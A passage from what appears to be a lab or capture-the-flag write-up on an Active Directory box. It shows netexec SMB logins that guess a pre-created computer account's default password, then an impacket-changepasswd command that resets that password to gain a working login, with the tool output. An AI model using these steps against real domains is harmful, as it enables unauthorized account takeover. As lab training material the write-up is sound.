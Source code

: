 > so let's try to log in one if the two accounts: 

```sh
$ nxc smb 10.10.65.246 -u 'FS01$' -p 'fs01'   
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [-] retro2.vl\FS01$:fs01 STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT 
```
`STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` error : when we have guessed the correct password for a computer account that has not been used yet.

Great, we now know the password for an account that we can use ., but we cannot use this computer account before the password has been changed. let's change it.

```sh
$ impacket-changepasswd retro2.vl/'FS01$':'fs01'@10.10.65.246 -protocol rpc-samr -newpass 'zenon@' 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of retro2.vl\FS01$
[*] Connecting to DCE/RPC as retro2.vl\FS01$
[*] Password was changed successfully.

$ nxc smb 10.10.65.246 -u 'FS01$' -p 'zenon@'                                         
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\FS01$:zenon@                                      
```
Perfect !! , let's go :

![Alt text](path.png)
